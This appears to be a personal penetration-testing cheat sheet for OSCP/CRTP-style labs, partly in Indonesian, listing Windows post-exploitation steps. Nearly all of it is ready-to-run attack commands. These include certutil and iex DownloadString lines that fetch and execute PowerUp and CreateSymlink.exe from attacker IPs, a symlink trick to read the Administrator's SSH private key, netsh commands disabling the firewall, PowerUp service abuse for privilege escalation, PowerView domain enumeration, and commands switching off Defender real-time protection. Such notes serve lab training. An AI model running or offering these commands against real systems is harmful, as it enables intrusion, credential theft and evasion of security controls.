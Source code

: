 8. Windows Symlinks Without Privilege, Check PG Symbolic #30, just use the https://github.com/googleprojectzero/symboliclink-testing-tools/releases/download/v1.0/Release.7z. Easy.

https://medium.com/@ardian.danny/oscp-practice-series-30-proving-grounds-symbolic-2afdae158ea5
Biasanya buat automated script yg backup file

```cmd
certutil -urlcache -f http://192.168.45.153/CreateSymlink.exe CreateSymlink.exe

CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
```

9. Turn off Firewall, disable firewall.
```cmd
netsh advfirewall set currentprofile state off

netsh advfirewall set domainprofile state off

Enable inbound outbound:

netsh advfirewall firewall set rule name="all_inbound" new enable=yes
netsh advfirewall firewall set rule name="all_outbound" new enable=yes
netsh advfirewall firewall show rule name=all
```

10. PowerUp is awesome
```cmd
iex ((New-Object Net.WebClient).DownloadString('http://172.16.99.11/PowerUp.ps1'))

or 
certutil -urlcache -f http://172.16.99.11/PowerUp.ps1 PowerUp.ps1

. .\PowerUp.ps1
```
- Check for privilege escalation (FIND FOR SERVICE ABUSE)
```cmd
Invoke-AllChecks
```
- Copy command, usually gini
```cmd (-UserName copy dari whoami)
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student664' -Verbose
```

11. PowerView is awesome
```cmd 
This is most important
Get-DomainUser | select -ExpandProperty samaccountname
Get-DomainComputer | select -ExpandProperty dnshostname

If nothing useful, use other command look CRTP notes.
```

12. Disable AMSI and RTP, REALTIMEPROTECTION REAL TIME PROTECTION, DEFENDER.
```cmd
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose 
Set-MpPreference -DisableIOAVProtection $true
```
